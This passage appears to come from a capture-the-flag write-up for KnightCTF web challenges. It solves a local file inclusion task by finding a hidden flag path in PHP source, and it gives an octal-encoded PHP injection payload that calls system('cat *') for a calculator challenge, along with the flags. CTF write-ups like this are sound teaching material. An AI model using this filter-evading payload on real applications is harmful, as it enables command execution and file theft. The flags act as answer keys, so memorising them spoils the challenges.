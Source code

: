``` 
    }

}else{
    echo "<h1>You are missing the file parameter</h1>";

    #note :- secret location /home/tareq/s3crEt_fl49.txt
}

?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Tareq's Home Page</title>
</head>
<body>
</body>
</html>
``` 
yay we get some notes: **#note :- secret location /home/tareq/s3crEt_fl49.txt**

But when i tried to access to that path, it's not working... and thanks to my friend he said that the hint is in the description and it's relatif path and not the full path.
So the path we need to go to is **/s3crEt_fl49.txt**.

**flag:KCTF{L0C4L_F1L3_1ncLu710n}**

# Most Secure Calculator - 2
## Description
Flag Format : KCTF{something_here}

Note : Burte Force/Fuzzing not required and not allowed.

Author: NomanProdhan

## Solution
Octal Encoding.
payload:
```
("\163\171\163\164\145\155")("\143\141\164 *")
```

**flag: KCTF{sHoUlD_I_uSe_eVaL_lIkE_tHaT}**
